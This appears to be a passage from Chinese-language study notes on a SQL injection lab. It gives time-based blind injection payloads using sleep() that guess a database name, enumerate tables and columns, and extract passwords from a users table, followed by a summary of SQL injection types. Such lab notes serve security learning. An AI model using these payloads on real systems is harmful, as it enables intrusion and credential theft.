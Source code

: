 ?id=1'） and sleep(5)   延时   判断’）闭合

?id=1" and sleep(5)…… 均无效



?id=1'） and if(left(database(),1)='c' , sleep(3), 1) --+     库名第一位是c

?id=1')  and if (left(database(),10)='challenges'  ,sleep(4),1)--+

![image-20201113131718665](https://raw.githubusercontent.com/heriachen/cloudimg/main/img/image-20201113131718665.png)

猜解库名 challenges

爆表payload

```
?id=1') and if(left((select table_name from information_schema.tables where table_schema=database() limit 1,1),1)='r' , sleep(3), 1) --+
```



爆字段payload

```
?id=1' and if(left((select column_name from information_schema.columns where table_name='xxxx' limit 4,1),8)='password', sleep(3), 1) --+
?id=1' and if(left((select column_name from information_schema.columns where table_name='xxxx' limit 9,1),8)='username', sleep(3), 1) --+
```

爆值payload

```
?id=1' and if(left((select password from users order by id limit 0,1),4)='xxxx' , sleep(3), 1) --+
```



## 0X43总结

**SQL注入的分类**

**按变量类型分**

- 数字型
- 字符型

**按HTTP提交方式分**

- GET注入
- POST注入
- Cookie注入

**按注入方式分**

- 报错注入
- 盲注
  - 布尔盲注
  - 时间盲注
- union注入
